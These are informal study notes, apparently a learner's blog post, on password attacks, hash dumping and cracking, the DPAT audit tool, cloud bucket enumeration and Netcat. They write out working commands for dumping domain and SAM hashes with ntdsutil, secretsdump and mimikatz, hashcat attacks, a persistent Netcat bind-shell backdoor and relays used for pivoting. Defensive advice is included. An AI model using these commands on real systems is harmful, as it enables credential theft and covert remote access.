password the ultimate prize for an attacker giving him unconditional access and maybe giving him some juicy files to use , here we’ll study how attacker may get there hands in ur lovely passwords and how you can keep them safe. 

## Password Attacks:

### Password guessing:

our first kind of attack and the most classic one , it starts with getting a valid userID /username , then making list of possible passwords /password list , trying each password , is correct then your in , if not try the next one. of course you will not do this manually you’ll sue scripts you have some conditions  like making one guess each 5 seconds and at most 5gusses per second , so you don't get locked out. miter ID T1110

### Password Spraying:

to try and avoid account lookout in this technique we have a small list of passwords and a huge list of accounts , so you spray the passwords you have hoping its gonna work with one of the accounts and if it didn't , you just wait for the lookout timer to reset and try anther small list of passwords, and soo one. 

### THC Hydra:

is a password guessing tool it supports tons of protocols , attackers use this tool to test successful usernames and password combination against a a services, it have a loot of moods you can use single name single password , single password multi username, multi password single username, and any other combination you can think of.

### Password Guess Selection:

here we try and make out password guessing better by taking into considerations factors that can help us like if the compony have a favorite local sports team , or brand that the employees fell connected to, also if the password is reset quarterly (spring, summer, fall, winter) in the password or ever monthly, this technique though very simple but very effective as proven by many pen-testers and is used in a log of hacking campaigns.

### Credential Stuffing:

what better way to get a password then looking  for already stolen ones, here the attacker get a hang of a huge collection of leaked data from, breaches then he goes around this data looking for a domain like “@sana.org” or a specific name ”joker” , this can help him to get his hands or a organization users passwords , or a specific user who goes by a curtain name.



## Understanding Password Hashes:

the practice of saving a password as a plain text , but still system need to verify that the user entered the same password to let him in , so instead of saving the password we save the hash of this password , and when the user enter the password calculate the has if it matches your in.

### Windows LANMAN Hashes:

this was used in the early versions of windows, it’s very weak and cant stand a password recovery attack , so to start the user enter a max of 14 character password which is then all converted into uppercase then its padded into 14 bytes , afterword's the password is split into 2halfs treated as the DES keys then encrypt this string “KGS!+#$%" then shift+12345 , the use of this hash is an advantage to any attacker because how easy it is to crack it. 

### NT Hashes:

this is better then LANMAN but still not that good , here an ascii  password is converted into Unicode then hashed using MD4, this have a weakness as they don't use salts making it easier to crack and users using the same password will have the same hash , NT is sometimes referred to as NTLM but its a misnomer, NTLM is a authentication function.

### Salting:

instead of calculating just the password hash , a salt is added before hashing , a salt is a small random string added to increase the entropy , the salt must be stored as a plain text along with the password hash.  

### Rainbow Tables:

leveraging the non salted password weakness , attackers can make a table that calculate passwords and store its hash in tables for direct comparison , making it as simple as get the hash and just search it and you’ll get the matching password, some sites like CrackStation allows you to enter the hash and it gives back the password, when trying to do this with salted password it becomes kind of impossible.

### Obtaining Windows Domain Controller Hashes:

after getting admin access you cant just copy the NTDS.dit file and get is cuz its encrypted using the SYS hive, so to get it you have to us the `ntdsutil` command then use `activate instance ntds` , followed by `ifm`, to get a backup in C:\ntds this dir , afterword you have to use the `secretdump` script to get the hash `secretsdump.py -system registry/SYSTEM -ntds Active\ Directory/ntds.dit LOCAL` .

### Obtaining Windows 10 Local Password:

first we have to us e this command `migrate -N lsass.exe` to be able to run the `hashdump`to get the hash from the ram , we can also use `reg save hklm\sam sam.hiv && reg save hklm\system system.hiv` then use `c:\tools\mimikatz\x64\mimikatz.exe "lsadump::sam /sam:sam.hiv/system:system.hiv" "exit"` and it’ll print the hash. 

most of the tools will using a common format of *username:userid:LANMAN:NTHASH* , we have to know what an empty LANMAN hash looks like so we don't get fooled by it.

### UNIX and Linux Passwords:

in the early days of unix password was stored in  `/etc/passwd` with DES cipher , later its mover into `/etc/shadow`
but accessed only by a sudo user , later it started using more advanced hashes and added salts.

### Decoding UNIX/Linux Password Hashes:

in the `/etc/shadow` stores the hashes using the $ as a separator encryption function from 1 to 6, followed by the salt, and finally the hash or encrypted value itself, 



### Hashing Rounds:

instead of just running the password through the hash once the system will run it for 5000 times making it take a more time to get the password using the hash , and for an attacker each second counts.

after all of this and the rising of tech password cracking is becoming easier as there are now super GPU’s and CPU’s that are available for the public , so now we have to make the hashing harder and harder by increasing rounds or finding new encryption techniques , which focuses in making the cracking more CPU and RAM intensive and harder even for high end computers 



## Password Cracking:

consider the following scenario at attacker compromised a low/med importance system , dumps all hashes stored then crackem and get to a higher importantly user account and boom he got every ting he needs to compromise the whole system. though it seems to straight forward but it happens so lets dive in to understand exactly how can this be done in real life. 

### John the Ripper:

an open sources cross platform tool, o run it you must feed it password hashes so in Unix you’ll need to feed it the unshadow version of the passwords , on win give it the output of the hashdump  or secretsdump.py.

### John cracking modes:

| Mode |  Argument  | Feature |
| --- | --- | --- |
| Single Crack  |  -single | Uses variations of account name, /etc/passwd account information, and more |
| Wordlist  | -wordlist filename | Uses a dictionary wordlist file with hybrid to generate permutated password guesses |
| Incremental  | -incremental | Uses brute force guessing |
| External  | -external | Uses an external program to generate guesses |
| Default  |  | John applies Single mode, then Word list, then Incremental |

when u gave john a wrong hash name and hash it will never be able to crack it so , john have an autodetect fetcher to ignore this , in windows sadly you’ll have to specify the type of the password your trying to crack, if john successfully crack a password it will print it into the screen then saves is into a john.pot file. 

### Hashcat:

anther password cracking tool , what's very unique about hash cat is that it uses GPU power to crack making it much much faster, it can also utilize multiple GPU’s to crack a single password.

### Hashcat Attack Modes:

`hashcat -m 1000 -a 0 ./smart-hashdump.txt words.txt` 

-m: spacify the kind of hash your cracking.

-a for the attack mode, followed by the hash file , then the wordlist

**Straight:** `-a 0` uses a wordlist trying each password in it.

**Combinator:** `-a 1`  takes 2 wordlists combine all the words in both files and try them , if a file have 1 million password and the other have only 6 , using this will produce 60 million passwords.

**Mask:** `-a 3` i fell this is in a way similar to regex but instead of searching you fill a space, using the table below we can understand it better.

| Marker | Character Sequence |
| --- | --- |
| ?l | abcdefghijklmnopqrstuvwxyz |
| ?u | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| ?d | 01234567890123456789 |
| ?s | «space»!"#$%&'()*+,-./:;<=>?@[\]^_`{|}~ |
| ?a | ?l?u?d?s (all of the abouve) |

so lets say we have a password policy of  “You must select a password of at least 8 characters with at least one capital letter, and one number.” we can guess its mostly gona be , a word starts with cubital letter and ends with numberer two so we can use this to try and brute force it, ?u?l?l?l?l?l?d?d 
****

**Hybrid Wordlist + Mask:** `-a 6` takes a word list and concatenates it with any mask you’ll write, like adding “123”to all the password in the list you have.
**Hybrid Mask + Wordlist:** `-a 7` same as the last one but instead prepend.

### Hashcat Rules:

add -r to the f a command of cracking a password and it will mutate all the passwords in this list to better guess the password. 

here is the top10 rules list of 2025:

| **Rule** | **Description** | **Type/Action** |
| --- | --- | --- |
| **`$1`** | Append the character **`1`** to the end of the word. | Append |
| **`$1 $2`** | Append **`12`** to the end of the word. | Append |
| **`$1 $2 $3`** | Append **`123`** to the end of the word. | Append |
| **`c`** | Capitalize the **first letter** of the word. (e.g., `password` ⇒ `Password`) | Case Manipulation |
| **`u`** | Convert the entire word to **uppercase**. (e.g., `password`⇒ `PASSWORD`) | Case Manipulation |
| **`$!`** | Append the character **`!`** to the end of the word. | Append |
| **`d`** | Duplicate the word. (e.g., `word` ⇒ `wordword`) | Duplication |
| **`so0 si1 se3 ss$ sa@`** | **Multiple substitution rules** run sequentially: `o` with `0` (zero). `i` with `1` (one). `e` with `3`. `s` with `$`. `a` with `@`. | Substitution |
| **`$2 $0 $2 $5`** | Append the string **`2025`** to the end of the word. | Append |

### Preparation:

there are some things that we can make to me ourself prepared for a scenario like the one we started this part with , for ***windows*** we can Disable LANMAN Authentication , this can be done by going to the SYSTEM\CurrentControlSet\Control\Lsa  hive and add a NoLMHash key so our password hash will not be stored next time we change it. password complexity use the  Active Directory Users and Computers MMC , enable the *Passwords must meet complexity requirements of installed password filter* settings. also making the password longer is some times better then making is short and complex , finally the reset password every 90 days leads to users making weaker or writing down passwords so just don't use it. ***Unix*** systems have Pluggable Authentication Modules (PAM) so just use them , and be in the safe side.

finally, deploy ***Multi-Factor Authentication*** , though we can do all the things i just mentioned , the best option is just to add anther layer of security and it’ll save your company millions.



## Domain Password Audit Tool:

DPAT a python script for windows or Unix that characterize how users select there password , i fell we can call it a meta data analysis tool for passwords, as i gathers hidden data and makes sense from them.

### Preparation:

 to start we need to extract the NTDS.dit and SYSTEM hives from the domain Controller, this can easily be done using the command `ntdsutil "activate instance ntds" "ifm" "create full c:\ntdsbak" "quit" "quit"`  , this will created this directory if is doesn't exist `c:\ntdsbak` , congaing both NTDS.dit and SYSTEM. Next , we’ll extract a list of Windows Domain groups 
into txt files each containing a list of users using this command `Get-AdGroup -Filter * | % { Get-AdGroupMember $*.Name |Select-Object -ExpandProperty SamAccountName | Out-File -FilePath"$($*.Name).txt" -Encoding ASCII } Get-AdGroup -Filter * | % { Get-AdGroupMember $*.Name |Select-Object -ExpandProperty SamAccountName | Out-File -FilePath"$($*.Name).txt" -Encoding ASCII }` . next we’ll export the hashes using the Impacket secretsdump.py script, and this command  `secretsdump.py -system “registry/SYSTEM” -ntds "ActiveDirectory/ntds.dit" LOCAL -outputfile customer -history` , afterwards we will crack the extracted passwords using Hashcat `hashcat -m 3000 -a 3 customer.ntds --potfile-path hashcat.potfile -1 ?u?d?s --increment ?1?1?1?1?1?1?1`   ,   `hashcat -m 1000 -a 0 customer.ntds wordlist.txt --potfile-path ./hashcat.potfile`, u should customize the password guessing as much as u can knowing the company policy to crack as much passwords.

### run it:

all of this was the preparation for running the DPAT , now lets run it using this command `python dpat.py -n ../ntdsbak/customer.ntds -c ../ntdsbak/hashcat.potfile -g ../ntdsbak/*.txt`, afterword it will produce the report.

the overview shows us a quick view of what the report found as followed 





we can see passwords length , and count 

top passwords , which can revel a lot of info to us , like the default password used by the IT



we can also get most occurring hashes so even if it was not cracked we can see if employees have duplicate passwords, and much more like domain group analysis , historical analysis, and much more. 



## Cloud Spotlight: Insecure Storage

Amazon S3 buckets, Google Cloud buckets, and Azure Blob storage  , are all fundamentals in the new age where every thing is store in cloud , in the early days of AWS it was a default setting that the all data was public access , but it was later changed. even until now some buckets are left un protected , why is that this all happens because of the lack of understanding where admin just don't care or don't understand how important security is. 

some of the settings in AWS



### Cloud Storage Access:

all cloud providers use HTTP to let you access the data , the end points are the same for each service , while changing some data, 

`https://s3.amazonaws.com/BUCKETNAME`

`https://ACCOUNTNAME.blob.core.windows.net/CONTAINERNAME`

`https://www.googleapis.com/storage/v1/b/BUCKETNAME`

an attacker can easily access the data if he can guess the bucket name , this can be done using enumeration.

### Scanning AWS S3:

**Bucket Finder** is a tool for enumerating AWS S3 buckets , you just feet it a word list of bucker names you want to search for it test if it exist and if its public, you can also download data from buckets if you want to.

### Scanning Google Compute Bucket:

GCPBucketBrute can identify if the bucker exists and also enumerate the permissions associated with a bucket , searching bucket name using a wordlist or even a single word, but for download we’ll have to use gsutil tool from Google.

### Azure Scanning:

Basic Blob Finder, takes a list of stings separated by a colon the 1st word is the account name then the 2rd is the container name, it can gather publicly buckets and all the files in them

creative bucket naming , you can make  like some rules so you can cover all possible bucket name a company may use , using rules to permutate a company name , or using OSINT can lead you to discovering some juicy buckets, you should also scan your organization cloud using the techniques mentioned here, but make s your doing in legally , and make sure the info you got is actually useful , DNS http and network can easily help you identify the cloud service provider, so a simple packer capture can help u a ton, and of course enable logging , it may need another bucket to save all the data to and may be not the easiest to deal with buts it’ll be very useful for the IR team.



## Netcat:

net cat is a tool made back in 1996, a 30 year old tool that till this day still used, though it have much copies like Ncat ,GNU Netcat. 

to start of we need to know that it have two moods Client which u gave a Ip and port to connect to , and u can then pipe the dana flowing to you to anther thing, and Listener mood which use the `-l` option which makes it listen to a port UDP or TCP and receives any packets on that port where u can then pipe to any app u want , or just read them in ur screen. clients start the connection, while listeners wait for them to arrive.

Netcat uses:

### Data transfer (moving files):

you can transferee data over a port 35 to make it look like normal DNS  packets , 

to get data from listener to a client we’ll use:

listener: `nc -l -p 1234 < filename`

client: `nc listenerIP 1234 > filename`

from client to listener:

listener: `nc -l -p 1234 > filename`

client: `nc listenerIP 1234 < filename`

### Port scanning:

using this command `nc -v -w3 -z targetIP startport-endport`  where the `-v` tells us if a connection was made , `-w3` only wait 3 seconds for the response , `-z` to send minimal data  , then this IP to scan , and range to scan for , we can originate our data from a port using the `-p` command.

### Backdoors:

we can be provided a login shell, by setting up a listener and activating `-e` , so it runs a shell.  when using the `-l` Netcan listen only one time , but if we use the `-L` it will run continuously but this only works in windows for Linux we have to make a command like this `while [ 1 ]; do echo "Started"; nc -l -p [port] -e /bin/sh; done` or save this into a listener.sh  and run `nohup ./listener.sh &` which makes it run even if the user is logged out.

### Relays:

make anther computer copies exactly what your doing over the internet , so u can use it to connect to a compromised computer and use it to make you attacks so u don't get backtracked , so from the attacker device he runs `nc 10.10.10.10 2222` , then run `nc –l –p 2222 | nc 10.10.10.100 80` , on the compromised machine then do whatever he likes. this can help him bypass firewalls and obfuscate the attack but this is only a one way relay



we can easily make a 2 way Relay in Linux, to start of we’ll create a named pipe `mkfifo backpipe` , which can help us pass data around , next we’ll make this `nc -l -p 2222 < backpipe | nc 10.10.10.100 80 > backpipe` which listen to the attacker , which is feed to the client , sent it then it come back and sent over to the listener using the named pipe.

### defending Netcat:

Data Transfer & Backdoors: monitor what's running on your systems. investigate process showing unusual port activity.

Port Scanners & Connecting to Open Ports: closing all unused ports. Only keep ports open that are required for normal operations.

Relays & Network Pivoting: Strengthen your internal network design with layered security. Use internal firewalls to create strategic chokepoints. Use Private VLANs (PVLANs) to isolate hosts and restrict lateral movement.



**done الحمدلله**